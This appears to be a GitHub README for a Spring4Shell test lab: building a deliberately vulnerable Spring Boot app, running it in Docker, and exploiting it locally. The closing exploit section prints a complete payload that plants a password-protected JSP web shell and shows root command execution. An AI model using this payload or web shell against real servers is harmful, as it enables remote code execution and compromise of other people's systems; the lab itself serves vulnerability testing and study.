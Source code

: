 # Spring4Shell test

## Setup vulnerable application 

### Install openjdk >= 9

Install and setup on manjaro and archlinux
```bash
$ yay -S jdk11-openjdk
$ sudo archlinux-java set java-11-openjdk
```

### Build vuln application

These are the steps I followed to build the vuln app in this repo:

Go to https://start.spring.io/#!type=maven-project&language=java&platformVersion=2.6.5&packaging=jar&jvmVersion=11&groupId=com.example&artifactId=demo&name=demo&description=Demo%20project%20for%20Spring%20Boot&packageName=com.example.demo&dependencies=web,thymeleaf

Unzip the generated project

Since I like to know what I'm doing I followed the great tutorial at https://spring.io/guides/gs/handling-form-submission/

#### Build war file

Add war packaging info to `pom.xml` file:

```xml
	<groupId>com.example</groupId>
	<artifactId>demo</artifactId>
	<packaging>war</packaging>
	<version>0.0.1-SNAPSHOT</version>
	<name>demo</name>
	<description>Demo project for Spring Boot</description>
```

Add final name so that package will be named `demo.war`, in `pom.xml` under the `<build>` section
```xml
<build>
	<finalName>demo</finalName>
	[...]
</build>
```

run maven
```
$ mvn clean package
```

which creates `demo/target/demo.war`

Or, ya know... just use what I've already setup in this repo :)

### Check for Spring in package

Confirm that an application uses spring framework
```
$ mkdir demo_src
$ mv demo/target/demo.war demo_src
$ cd demo_src
$ unzip demo.war
$ find . -name 'spring-beans-*.jar'  
./BOOT-INF/lib/spring-beans-5.3.17.jar
```

Apparently, people are saying that you can also check for the `CachedIntrospectionResults.class` file.

### Run and test the app:

Using the Dockerfile in this repo, simply run the following commands:

```bash
$ docker build -t eq/spring4shell ./
$ docker container run -it --publish 8080:8080 eq/spring4shell
```

#### App testing: 

```bash
$ curl -i http://127.0.0.1:8080/demo/greeting
HTTP/1.1 200 
Content-Type: text/html;charset=UTF-8
Content-Language: en-US
Transfer-Encoding: chunked
Date: Thu, 31 Mar 2022 10:43:48 GMT

<!DOCTYPE HTML>
<html>
<head> 
    <title>Getting Started: Handling Form Submission</title>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
</head>
<body>
	<h1>Form</h1>
    <form action="/greeting" method="post">
    	<p>Id: <input type="text" id="id" name="id" value="0" /></p>
        <p>Message: <input type="text" id="content" name="content" value="" /></p>
        <p><input type="submit" value="Submit" /> <input type="reset" value="Reset" /></p>
    </form>
</body>
</html>
$ # Testing the form:
$ curl -i http://127.0.0.1:8080/demo/greeting -d 'id=1&content=message_content'
HTTP/1.1 200 
Content-Type: text/html;charset=UTF-8
Content-Language: en-US
Transfer-Encoding: chunked
Date: Thu, 31 Mar 2022 10:44:41 GMT

<!DOCTYPE HTML>
<html>
<head> 
    <title>Getting Started: Handling Form Submission</title>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
</head>
<body>
	<h1>Result</h1>
    <p >id: 1</p>
    <p >content: message_content</p>
    <a href="/greeting">Submit another message</a>
</body>
</html>
```

## Testing the exploit:

Slightly modified PoC from: https://github.com/BobTheShoplifter/Spring4Shell-POC can be found in the `poc.py` file.

Modifications performed:
 - Change directory to `webapps/demo` to match the demo
 - Add debug prints


```bash
$ python poc.py --url http://127.0.0.1:8080/demo/greeting 
[+] Requesting url with content:
Headers: {'suffix': '%>//', 'c1': 'Runtime', 'c2': '<%', 'DNT': '1', 'Content-Type': 'application/x-www-form-urlencoded'}
Data: class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/demo&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
=======================================
[+] Checking shell properly uploaded at: http://127.0.0.1:8080/demo/tomcatwar.jsp
[+] Confirming shell at:http://127.0.0.1:8080/demo/tomcatwar.jsp?pwd=j&cmd=id
```

RCE result:
```bash
$ curl http://127.0.0.1:8080/demo/tomcatwar.jsp\?pwd\=j\&cmd\=id -o test
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2530    0  2530    0     0  36332      0 --:--:-- --:--:-- --:--:-- 36666
$ cat test 
uid=0(root) gid=0(root) groups=0(root)

//
- if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = -.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } -
- if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = -.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } -
```


